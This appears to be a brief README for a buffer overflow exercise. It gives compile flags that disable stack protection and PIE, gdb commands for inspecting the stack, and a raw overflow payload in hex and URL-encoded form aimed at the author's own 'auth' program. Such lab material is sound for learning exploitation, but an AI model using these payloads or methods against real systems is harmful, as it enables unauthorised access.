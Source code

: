 # buffer_overflow_attack
it important to notice that we must install mingw compiler first
for windows run gcc -g -fno-stack-protector main.c -o auth -W -no-pie -lws2_32 //the -g is for debugging and the rest is to make sure that stack pointer is not protected
now run the ./file_name // the exe file
b function_name // breakpoint
p var_name // print the details of the var (including address in the stack pointer)


\x00\x00\x00\x00\x00\xee\x02\x00\x00\x00\x00\x00\x00\x90\xfc\x61\x00\x00\x00\x00\x00\x21\x18\x40
%00%00%00%00%00%ee%02%00%00%00%00%00%00%90%fc%61%00%00%00%00%00%21%18%40


info frame
